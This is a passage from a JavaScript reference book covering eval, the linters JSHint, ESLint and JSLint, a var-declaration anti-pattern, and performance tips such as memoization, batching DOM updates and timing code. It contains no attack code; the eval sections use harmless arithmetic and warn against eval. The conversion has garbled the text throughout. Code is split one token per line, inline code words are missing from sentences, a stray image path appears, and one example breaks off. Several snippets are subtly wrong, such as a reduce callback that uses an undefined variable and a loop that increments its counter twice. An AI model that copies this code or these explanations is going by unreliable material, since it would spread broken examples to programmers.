
  
  **add**
  

  

We can now safely say that **(x,y)**... **should return the sum of two
integers**. We can roll these up into something like this:

**function**

test\_\_addsIntegers

(

)

{

*// expect a number of passed assertions*

**var**

passed

=

3

;

*// number of assertions to be reduced and added as Booleans*

**var**

assertions

=

\[

assert

(

add

(

0

,

0

)

==

0

,

\'add(0, 0) should return 0\...\'

)

,

assert

(

add

(

0

,

\-

1

)

==

\-

1

,

\'add(0, -1) should return -1\...\'

)

,

assert

(

add

(

0

,

1

)

==

1

,

\'add(0, 1) should return 1\...\'

)

\]

.

reduce

(

**function**

(

previousValue

,

currentValue

)

{

**return**

previousValue

\+

current

;

}

)

;

**if**

(

assertions

===

passed

)

{

console.

log

(

\"add(x,y)\... did return the sum of two integers\"

)

;

**return**

**true**

;

}

**else**

{

console.

log

(

\"add(x,y)\... does not reliably return the sum of two integers\"

)

;

**return**

**false**

;

}

}

# Chapter 101: Evaluating JavaScript

**Parameter Details**

string The JavaScript to be evaluated.

  
  eval                    (     \'2 + 2\'
   - 

  

In JavaScript, the eval function evaluates a string as if it were
JavaScript code. The return value is the result of the evaluated
string, e.g. ) returns 4.
>
eval is available in the global scope. The lexical scope of the
evaluation is the local scope unless invoked indirectly

  
  **var** geval                  =   eval            ;   geval
  -    -

  

(e.g. (s);).

**The use of eval is strongly discouraged.** See the Remarks section for
details.

## Section 101.1: Evaluate a string of JavaScript statements

**var**

x

=

5

;

**var**

str

=

\"if (x == 5) {console.log(\'z is 42\'); z = 42;} else z = 0; \"

;

console.

log

(

\"z is \"

,

eval

(

str

)

)

;

**The use of eval is strongly discouraged.** See the Remarks section
for details.

## Section 101.2: Introduction

You can always run JavaScript from inside itself, although this is
**strongly discouraged** due to the security vulnerabilities it
presents (see Remarks for details).
>
To run JavaScript from inside JavaScript, simply use the below
function:

eval

(

\"var a = \'Hello, World!\'\"

)

;

## Section 101.3: Evaluation and Math

  
  eval
  

  

You can set a variable to something with the () function by using
something similar to the below code:

**var**

x

=

10

;

**var**

y

=

20

;

**var**

a

=

eval

(

\"x \* y\"

)

\+

\"\<br\>\"

;

**var**

b

=

eval

(

\"2 + 2\"

)

\+

\"\<br\>\"

;

**var**

c

=

eval

(

\"x + 17\"

)

\+

\"\<br\>\"

;

**var**

res

=

a

\+

b

\+

c

;

The result, stored in the variable

res

, will be:

200
>
4
>
27
>
**The use of eval is strongly discouraged.** See the Remarks section
for details.

# Chapter 102: Linters - Ensuring code quality

## Section 102.1: JSHint

[JSHint](http://jshint.com/) is an open source tool which detects
errors and potential problems in JavaScript code.
>
To lint your JavaScript you have two options.

1.  Go to [JSHint.com](http://jshint.com/) and paste your code in there
    on line text editor.

2.  Install [JSHint in your IDE](http://jshint.com/install/).

Atom: [linter-jshint](https://github.com/AtomLinter/linter-jshint)
(must have [Linter](https://github.com/steelbrain/linter) plugin
installed)
>
Sublime Text: [JSHint
Gutter](https://github.com/victorporof/Sublime-JSHint) and/or [Sublime
Linter](https://github.com/SublimeLinter/SublimeLinter-for-ST2)
>
Vim: [jshint.vim](https://github.com/walm/jshint.vim) or
[jshint2.vim](https://github.com/Shutnik/jshint2.vim)
>
Visual Studio: [VSCode
JSHint](https://github.com/Microsoft/vscode-jshint)

  
  jshintrc
  

  

A benefit of adding it to your IDE is that you can create a JSON
configuration file named . that will be used when linting your
program. This is convent if you want to share configurations between
projects.

  
  jshintrc
  

  

Example . file

{

\"-W097\"

:

**false**

,

*// Allow \"use strict\" at document level*

\"browser\"

:

**true**

,

*// defines globals exposed by modern browsers*

*http://jshint.com/docs/options/#browser*

\"curly\"

:

**true**

,

*// requires you to always put curly braces around blocks in loops and*

*conditionals http://jshint.com/docs/options/#curly*

\"devel\"

:

**true**

,

*// defines globals that are usually used for logging poor-man\'s
debugging:*

*console, alert, etc. http://jshint.com/docs/options/#devel*

*// List global variables (false means read only)*

\"globals\"

:

{

\"globalVar\"

:

**true**

}

,

\"jquery\"

:

**true**

,

*// This option defines globals exposed by the jQuery JavaScript
library.*

\"newcap\"

:

**false**

,

*// List any global functions or const vars*

\"predef\"

:

\[

\"GlobalFunction\"

,

\"GlobalFunction2\"

\]

,

\"undef\"

:

**true**

,

*// warn about undefined vars*

\"unused\"

:

**true**

*// warn about unused vars*

}

JSHint also allows configurations for specific lines/blocks of code

**switch**

(

operation

)

{

**case**

\'+\'

{

result

=

a

\+

b

;

**break**

;

}

*// JSHint W086 Expected a \'break\' statement*

*// JSHint flag to allow cases to not need a break*

*/\* falls through \*/*

**case**

\'\*\'

:

**case**

\'x\'

:

{

result

=

a

\*

b

;

**break**

;

}

}

*// JSHint disable error for variable not defined, because it is defined
in another file*

*/\* jshint -W117 \*/*

globalVariable

=

\'in-another-file.js\'

;

*/\* jshint +W117 \*/*

More configuration options are documented at
<http://jshint.com/docs/options/>

## Section 102.2: ESLint / JSCS

[ESLint](http://eslint.org/) is a code style linter and formatter for
your style guide [much like
JSHint](http://www.slant.co/versus/8627/8628/%7Ejshint_vs_eslint).
ESLint merged with
[JSCS](https://medium.com/@markelog/jscs-end-of-the-line-bc9bf0b3fdb2#.h2cktyall)
in April of 2016. ESLint does take more effort to set up than JSHint,
but there are clear instructions on their
[website](http://eslint.org/docs/user-guide/getting-started) for
getting started.
>
A sample configuration for ESLint is as follows:

{

\"rules\"

:

{

\"semi\"

:

\[

\"error\"

,

\"always\"

\]

,

*// throw an error when semicolons are detected*

\"quotes\"

:

\[

\"error\"

,

\"double\"

\]

*// throw an error when double quotes are detected*

}

}

A sample configuration file where ALL rules are set to off, with
descriptions for what they do can be found
[here](https://gist.github.com/cletusw/e01a85e399ab563b1236).

## Section 102.3: JSLint

[JSLint](http://www.jslint.com/) is the trunk from which JSHint
branched. JSLint takes a much more opinionated stance on how to write
JavaScript code, pushing you towards only using the parts [Douglas
Crockford](http://crockford.com/) deems to be its \"good parts\", and
away from any code that Crockford believes to have a better solution.
The following StackOverflow thread may help you decide [which linter
is right for you](http://stackoverflow.com/a/6803574/6194193). While
there are differences (here are some brief comparisons between it and
[JSHint](http://www.slant.co/versus/8627/8626/%7Ejshint_vs_jslint) /
[ESLint](http://www.slant.co/versus/8628/8626/%7Eeslint_vs_jslint)),
each option is extremely customizable.
>
For a more information about configuring JSLint check out
[NPM](https://www.npmjs.com/package/jslint) or
[github](https://gist.github.com/bretdavidson/3189814#file-jslint-options-descriptions).

<h2 id="ch103">Chapter 103: Anti-patterns</h2>

<h3 id="ch103-1">Section 103.1: Chaining assignments in var declarations</h3>

Chaining assignments as part of a **var** declaration will create
global variables unintentionally.
>
For example:

(

**function**

foo

(

)

{

**var**

a

=

b

=

0

;

}

)

(

)

console.

log

(

\'a: \'

\+

a

)

;

console.

log

(

\'b: \'

\+

b

)

;

Will result in:

Uncaught ReferenceError

:

a is not defined

\'b: 0\'

In the above example, a is local but b becomes global. This is because
of the right to left evaluation of the = operator. So the above code
actually evaluated as

**var**

a

=

(

b

=

0

)

;

The correct way to chain var assignments is:

**var**

a

,

b

;

a

=

b

=

0

;

Or:

**var**

a

=

0

,

b

=

a

;

This will make sure that both a and b will be local variables.

# Chapter 104: Performance Tips

JavaScript, like any language, requires us to be judicious in the use
of certain language features. Overuse of some features can decrease
performance, while some techniques can be used to increase
performance.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch104-1">Section 104.1: Avoid try/catch in performance-critical functions</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Some JavaScript engines (for example, the current version of Node.js
and older versions of Chrome before Ignition+turbofan) don\'t run the
optimizer on functions that contain a try/catch block.
>
If you need to handle exceptions in performance-critical code, it can
be faster in some cases to keep the try/catch in a separate function.
For example, this function will not be optimized by some
implementations:

**function**

myPerformanceCriticalFunction

(

)

{

**try**

{

*// do complex calculations here*

}

**catch**

(

e

)

{

console.

log

(

e

)

;

}

}

However, you can refactor to move the slow code into a separate
function (that *can* be optimized) and call it from inside the **try**
block.

*// This function can be optimized*

**function**

doCalculations

(

)

{

*// do complex calculations here*

}

*// Still not always optimized, but it\'s not doing much so the
performance doesn\'t matter*

**function**

myPerformanceCriticalFunction

(

)

{

**try**

{

doCalculations

(

)

;

}

**catch**

(

e

)

{

console.

log

(

e

)

;

}

}

Here\'s a jsPerf benchmark showing the difference:
<https://jsperf.com/try-catch-deoptimization>. In the current version
of most browsers, there shouldn\'t be much difference if any, but in
less recent versions of Chrome and Firefox, or IE, the version that
calls a helper function inside the try/catch is likely to be faster.

Note that optimizations like this should be made carefully and with
actual evidence based on profiling your code. As

JavaScript engines get better, it could end up hurting performance
instead of helping, or making no difference at all (but complicating
the code for no reason). Whether it helps, hurts, or makes no
difference can depend on a lot of factors, so always measure the
effects on your code. That\'s true of all optimizations, but
especially microoptimizations like this that depend on low-level
details of the compiler/runtime.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch104-2">Section 104.2: Limit DOM Updates</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

A common mistake seen in JavaScript when run in a browser environment
is updating the DOM more often than necessary.

The issue here is that every update in the DOM interface causes the
browser to re-render the screen. If an update changes the layout of an
element in the page, the entire page layout needs to be re-computed,
and this is very performance-heavy even in the simplest of cases. The
process of re-drawing a page is known as *reflow* and can cause a
browser to run slowly or even become unresponsive.

The consequence of updating the document too frequently is illustrated
with the following example of adding items to a list.

  
  **\<ul**
  

  

Consider the following document containing a **\>** element:

\<!

DOCTYPE html

**\>**

**\<**

**html**

**\>**

**\<**

**body**

**\>**

**\<**

**ul**

id

=

\"list\"

**\>**

**\<**

**/ul**

**\>**

**\<**

**/body**

**\>**

**\<**

**/html**

**\>**

We add 5000 items to the list looping 5000 times (you can try this
with a larger number on a powerful computer to increase the effect).

**var**

list

=

document.

getElementById

(

\"list\"

)

;

**for**

(

**var**

i

=

1

;

i

\<=

5000

;

i

++

)

{

list.

innerHTML

+=

\`

\<

li

\>

item \$

{

i

}

\<

/

li

\>

\`

;

*// update 5000 times*

}

In this case, the performance can be improved by batching all 5000
changes in one single DOM update.

**var**

list

=

document.

getElementById

(

\"list\"

)

;

**var**

html

=

\"\"

;

**for**

(

**var**

i

=

1

;

i

\<=

5000

;

i

++

)

{

html

+=

\`

\<

li

\>

item \$

{

i

}

\<

/

li

\>

\`

;

}

list.

innerHTML

=

html

;

*// update once*

  
  [document.createDocumentFragment](https://developer.mozilla.org/en-US/docs/Web/API/Document/createDocumentFragment)
  

  

The function
[()](https://developer.mozilla.org/en-US/docs/Web/API/Document/createDocumentFragment)
can be used as a lightweight container for the HTML created by
>
the loop. This method is slightly faster than modifying the container
element\'s innerHTML property (as shown below).

**var**

list

=

document.

getElementById

(

\"list\"

)

;

**var**

fragment

=

document.

createDocumentFragment

(

)

;

**for**

(

**var**

i

=

1

;

i

\<=

5000

;

i

++

)

{

li

=

document.

createElement

(

\"li\"

)

;

li\.

innerHTML

=

\"item \"

\+

i

;

fragment.

appendChild

(

li

)

;

i

++

;

}

list.

appendChild

(

fragment

)

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch104-3">Section 104.3: Benchmarking your code - measuring execution time</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Most performance tips are very dependent of the current state of JS
engines and are expected to be only relevant at a given time. The
fundamental law of performance optimization is that you must first
measure before trying to optimize, and measure again after a presumed
optimization.
>
To measure code execution time, you can use different time measurement
tools like:
>
[Performance](https://developer.mozilla.org/en-US/docs/Web/API/Performance)
interface that represents timing-related performance information for
the given page (only available in browsers).
>
[process.hrtime](https://nodejs.org/api/process.html#process_process_hrtime_time)
on Node.js gives you timing information as \[seconds, nanoseconds\]
tuples. Called without argument it returns an arbitrary time but
called with a previously returned value as argument it returns the
difference between the two executions.

  -
  console.time                        (   \"labelName\"
    -

  -

[Console
timers](https://developer.mozilla.org/en-US/docs/Web/API/Console/time)
) starts a timer you can use to track how long an operation takes. You
>
give each timer a unique label name, and may have up to 10,000 timers
running on a given page. When you call

  -
  console.timeEnd                         (   \"labelName\"
    

  -

) with the same name, the browser will finish the timer for given name
and output

the time in milliseconds, that elapsed since the timer was started.
The strings passed to time() and timeEnd() must match otherwise the
timer will not finish.

  
  Date                                .        now
    

  

[Date.now](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/now)
function () returns current [Timestamp](http://www.unixtimestamp.com/)
in milliseconds, which is a
[Number](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Number)
representation of time since 1 January 1970 00:00:00 UTC until now.
The method now() is a static method of Date, therefore you always use
it as Date.now().

  
  performance.now
  

  

**Example 1** using: ()
>
In this example we are going to calculate the elapsed time for the
execution of our function, and we are going to use the
[Performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now)
method that returns a
[DOMHighResTimeStamp](https://developer.mozilla.org/en-US/docs/Web/API/DOMHighResTimeStamp),
measured in milliseconds, accurate to one thousandth of a millisecond.

**let**

startTime

,

endTime

;

**function**

myFunction

(

)

{

*//Slow code you want to measure*

}

*//Get the start time*

startTime

=

performance.

now

(

)

;

*//Call the time-consuming function*

myFunction

(

)

;

*//Get the end time*

endTime

=

performance.

now

(

)

;

*//The difference is how many milliseconds it took to call myFunction()*

console.

debug

(

\'Elapsed time:\'

,

(

endTime

\-

startTime

)

)

;

The result in console will look something like this:

Elapsed time

:

0.10000000009313226

  
  [performance.now](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now)
  

  

Usage of
[()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now)
has the highest precision in browsers with accuracy to one thousandth
of a millisecond, but the lowest
[compatibility](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now#Browser_compatibility).

  
  Date                                .        now
    

  

**Example 2** using: ()
>
In this example we are going to calculate the elapsed time for the
initialization of a big array (1 million values), and

  
  Date                                .        now
    

  

we are going to use the () method
>
**let** t0 = Date.now(); *//stores current Timestamp in milliseconds
since 1 January 1970 00:00:00 UTC* **let** arr = \[\]; *//store empty
array* **for** (**let** i = 0; i \< 1000000; i++) { *//1 million
iterations* arr.push(i); *//push current i value*

}

console.

log

(

Date

.

now

(

)

\-

t0

)

;

*//print elapsed time between stored t0 and now*

  
  console.time       (   \"label\"   ) &   console.timeEnd        (   \"label\"
  -   - -  

  

**Example 3** using: )

  
  console.time                               (   \"label\"
  -  -

  

  -
  console.timeEnd                               (    \"label\"
  -  

  -

In this example we are doing the same task as in Example 2, but we are
going to use the ) & ) methods

console.

time

(

\"t\"

)

;

*//start new timer for label name: \"t\"*

**let**

arr

=

\[

\]

;

*//store empty array*

**for**

(

**let**

i

=

0

;

i

\<

1000000

;

i

++

)

{

*//1 million iterations*

arr.

push

(

i

)

;

*//push current i value*

}

console.

timeEnd

(

\"t\"

)

;

*//stop the timer for label name: \"t\" and print elapsed time*

  
  process.hrtime
  

  

**Exemple 4** using ()
>
In Node.js programs this is the most precise way to measure spent
time.

**let**

start

=

process.

hrtime

(

)

;

*// long execution here, maybe asynchronous*

**let**

diff

=

process.

hrtime

(

start

)

;

*// returns for example \[ 1, 2325 \]*

console.

log

(

\`Operation took \$

{

diff

\[

0

\]

\*

1e9

\+

diff

\[

1

\]

}

nanoseconds\`

)

;

*// logs: Operation took 1000002325 nanoseconds*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch104-4">Section 104.4: Use a memoizer for heavy-computing functions</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

If you are building a function that may be heavy on the processor
(either clientside or serverside) you may want to consider a
**memoizer** which is a *cache of previous function executions and
their returned values*. This allows you to check if the parameters of
a function were passed before. Remember, pure functions are those that
given an input, return a corresponding unique output and don\'t cause
side-effects outside their scope so, you should not add memoizers to
functions that are unpredictable or depend on external resources (like
AJAX calls or randomly returned values).
>
Let\'s say I have a recursive factorial function:

**function**

fact

(

num

)

{

**return**

(

num

===

0

)

?

1

:

num

\*

fact

(

num

\-

1

)

;

}

If I pass small values from 1 to 100 for example, there would be no
problem, but once we start going deeper, we might blow up the call
stack or make the process a bit painful for the JavaScript engine
we\'re doing this in, especially if the engine doesn\'t count with
tail-call optimization (although Douglas Crockford says that native
ES6 has tail-call optimization included).
>
We could hard code our own dictionary from 1 to god-knows-what number
with their corresponding factorials but, I\'m not sure if I advise
that! Let\'s create a memoizer, shall we?

**var**

fact

=

(

**function**

(

)

{

**var**

cache

=

{

}

;

*// Initialise a memory cache object*

*// Use and return this function to check if val is cached*

**function**

checkCache

(

val

)

{

**if**

(

val

**in**

cache

)

{

console.

log

(

\'It was in the cache :D\'

)

;

**return**

cache

\[

val

\]

;

*// return cached*

}

**else**

{

cache

\[

val

\]

=

factorial

(

val

)

;

*// we cache it*

**return**

cache

\[

val

\]

;

*// and then return it*

}

*/\* Other alternatives for checking are:*

*\|\| cache.hasOwnProperty(val) or !!cache\[val\]*

*\|\| but wouldn\'t work if the results of those*

*\|\| executions were falsy values.*

*\*/*

}

*// We create and name the actual function to be used*

**function**

factorial

(

num

)

{

**return**

(

num

===

0

)

?

1

:

num

\*

factorial

(

num

\-

1

)

;

}

*// End of factorial function*

*/\* We return the function that checks, not the one*

*\|\| that computes because it happens to be recursive,*

*\|\| if it weren\'t you could avoid creating an extra*

*\|\| function in this self-invoking closure function.*

*\*/*

**return**

checkCache

;

}

(

)

)

;

Now we can start using it:

{width="4.252083333333333in"
height="0.9909722222222223in"}

Now that I start to reflect on what I did, if I were to increment from
1 instead of decrement from *num*, I could have cached all of the
factorials from 1 to *num* in the cache recursively, but I will leave
that for you.
>
This is great but what if we have **multiple parameters**? This is a
problem? Not quite, we can do some nice tricks like using
JSON.stringify() on the arguments array or even a list of values that
the function will depend on (for object-oriented approaches). This is
done to generate a unique key with all the arguments and dependencies
included.
>
We can also create a function that \"memoizes\" other functions, using
the same scope concept as before (returning a new function that uses
the original and has access to the cache object):

  
  **var** args
  

  

WARNING: ES6 syntax, if you don\'t like it, replace \... with nothing
and use the =

  
  Array    .   **prototype**   .   slice    .   call   (   **null**   ,   arguments
          -  -

  

); trick; replace const and let with var, and the other things you

already know.

**function**

memoize

(

func

)

{

**let**

cache

=

{

}

;

*// You can opt for not naming the function*

**function**

memoized

(

\...

args

)

{

**const**

argsKey

=

JSON.

stringify

(

args

)

;

*// The same alternatives apply for this example*

**if**

(

argsKey

**in**

cache

)

{

console.

log

(

argsKey

\+

\' was/were in cache :D\'

)

;

**return**

cache

\[

argsKey

\]

;

}

**else**

{

cache

\[

argsKey

\]

=

func.

apply

(

**null**

,

args

)

;

*// Cache it*

**return**

cache

\[

argsKey

\]

;

*// And then return it*

}

}

**return**

memoized

;

*// Return the memoized function*

}

  -
  func.apply                        (   **null**      ,   args
    -  -

  -

Now notice that this will work for multiple arguments but won\'t be of
much use in object-oriented methods I think, you may need an extra
object for dependencies. Also, ) can be replaced with

  
  func                    (     \...args
   - 

  

) since array destructuring will send them separately instead of as an
array form. Also, just for

  
  Function                .   **prototype**              .   apply
      

  

reference, passing an array as an argument to func won\'t work unless
you use as I did.
>
To use the above method you just:

**const**

newFunction

=

memoize

(

oldFunction

)

;

*// Assuming new oldFunction just sums/concatenates:*

newFunction

(

\'meaning of life\'

,

42

)

;

*// -\\"meaning of life42\"*

newFunction

(

\'meaning of life\'

,

42

)

;

*// again*

*// =\\[\"meaning of life\",42\] was/were in cache :D*

*// -\\"meaning of life42\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch104-5">Section 104.5: Initializing object properties with null</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

All modern JavaScript JIT compilers trying to optimize code based on
expected object structures. Some tip from
[mdn](https://developer.mozilla.org/en-US/docs/Web/JavaScript/The_performance_hazards_of__%5B%5BPrototype%5D%5D_mutation#How_JavaScript_engines_optimize_property_accesses).
>
Fortunately, the objects and properties are often \"predictable\", and
in such cases their underlying structure can also be predictable. JITs
can rely on this to make predictable accesses faster.
>
The best way to make object predictable is to define a whole structure
in a constructor. So if you\'re going to add some extra properties
after object creation, define them in a constructor with **null**.
This will help the optimizer to predict object behavior for its whole
life cycle. However all compilers have different optimizers, and the
performance increase can be different, but overall it\'s good practice
to define all properties in a constructor, even when their value is
not yet known.
>
Time for some testing. In my test, I\'m creating a big array of some
class instances with a for loop. Within the loop, I\'m assigning the
same string to all object\'s \"x\" property before array
initialization. If constructor initializes \"x\" property with null,
array always processes better even if it\'s doing extra statement.
>
This is code:

**function**

f1

(

)

{

**var**

P

=

**function**

(

)

{

**this**

.

value

=

1

}

;

**var**

big_array

=

**new**

Array

(

10000000

)

.

fill

(

1

)

.

map

(

(

x

,

index

)

=\>

{

{width="7.486805555555556in"
height="7.072222222222222in"}

This is the result for Chrome and Firefox.

FireFox Chrome

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\

f1 6,400 11,400

f2 1,700 9,600

As we can see, the performance improvements are very different between
the two.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch104-6">Section 104.6: Reuse objects rather than recreate</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Example A**

**var**

i

,

a

,

b

,

len

;

a

=

{

x

:

0

,

y

:

0

}

**function**

test

(

)

{

*// return object created each call*

**return**

{

x

:

0

,

y

:

0

}

;

}

**function**

test1

(

a

)

{

*// return object supplied*

a\.

x

=

0

;

a\.

y

=

0

;

**return**

a

;

}

**for**

(

i

=

0

;

i

\<

100

;

i

++

)

{

*// Loop A*

b

=

test

(

)

;

}

**for**

(

i

=

0

;

i

\<

100

;

i

++

)

{

*// Loop B*

b

=

test1

(

a

)

;

}

Loop B is 4 (400%) times faster than Loop A

  
  test
  

  

  
  test1
  

  

It is very inefficient to create a new object in performance code.
Loop A calls function () which returns a new object every call. The
created object is discarded every iteration, Loop B calls () that
requires the object returns to be supplied. It thus uses the same
object and avoids allocation of a new object, and excessive GC hits.
>
(GC were not included in the performance test)

**Example B**

**var**

i

,

a

,

b

,

len

;

a

=

{

x

:

0

,

y

:

0

}

**function**

test2

(

a

)

{

**return**

{

x

:

a\.

x

\*

10

,

y

:

a\.

x

\*

10

}

;

}

**function**

test3

(

a

)

{

a\.

x

=

a\.

x

\*

10

;

a\.

y

=

a\.

y

\*

10

;

**return**

a

;

}

**for**

(

i

=

0

;

i

\<

100

;

i

++

)

{

*// Loop A*

b

=

test2

(

{

x

:

10

,

y

:

10

}

)

;

}

**for**

(

i

=

0

;

i

\<

100

;

i

++

)

{

*// Loop B*

a\.

x

=

10

;

a\.

y

=

10

;

b

=

test3

(

a

)

;

}

Loop B is 5 (500%) times faster than loop A

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch104-7">Section 104.7: Prefer local variables to globals, attributes, and indexed values</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

JavaScript engines first look for variables within the local scope
before extending their search to larger scopes. If the variable is an
indexed value in an array, or an attribute in an associative array, it
will first look for the parent array before it finds the contents.
>
This has implications when working with performance-critical code.
Take for instance a common **for** loop:

**var**

global_variable

=

0

;

**function**

foo

(

)

{

global_variable

=

0

;

**for**

(

**var**

i

=

0

;

i

\<

items.

length

;

i

++

)

{

global_variable

+=

items

\[

i

\]

;

}

}

For every iteration in **for** loop, the engine will lookup items,
lookup the length attribute within items, lookup items again, lookup
the value at index i of items, and then finally lookup
global_variable, first trying the local scope before checking the
global scope.
>
A performant rewrite of the above function is:

**function**

foo

(

)

{

**var**

local_variable

=

0

;

**for**

(

**var**

i

=

0

,

li

=

items.

length

;

i

\<

li

;

i

++

)

{

local_variable

+=

items

\[

i

\]

;

}

**return**

local_variable

;

}

For every iteration in the rewritten **for** loop, the engine will
lookup li, lookup items, lookup the value at index i, and lookup
local_variable, this time only needing to check the local scope.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch104-8">Section 104.8: Be consistent in use of Numbers</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

If the engine is able to correctly predict you\'re using a specific
small type for your values, it will be able to optimize the executed
code.

In this example, we\'ll use this trivial function summing the elements
of an array and outputting the time it took:

*// summing properties*

**var**

sum

=

(

**function**

(

arr

)

{

**var**

start

=

process.

hrtime

(

)

;

**var**

sum

=

0

;

**for**

(

**var**

i

=

0

;

i

\<

arr.

length

;

i

++

)

{

sum

+=

arr

\[

i

\]

;

}

**var**

diffSum

=

process.

hrtime

(

start

)

;

console.

log

(

\`Summing took \$

{

diffSum

\[

0

\]

\*

1e9

\+

diffSum

\[

1

\]

}

nanoseconds\`

)

;

**return**

sum

;

}

)

(

arr

)

;

Let\'s make an array and sum the elements:

**var**

N

=

12345

,

arr

=

\[

\]

;

**for**

(

**var**

i

=

0

;

i

\<

N

;

i

++

)

arr

\[

i

\]

=

Math

.

random

(

)

;

Result:

Summing took 384416 nanoseconds

Now, let\'s do the same but with only integers:

**var**

N

=

12345

,

arr

=

\[

\]

;

**for**

(

**var**

i

=

0

;

i

\<

N

;

i

++

)

arr

\[

i

\]

=

Math

.

round

(

1000

\*

Math

.

random

(

)

)

;

Result:

Summing took 180520 nanoseconds

**Summing integers took half the time here.**
>
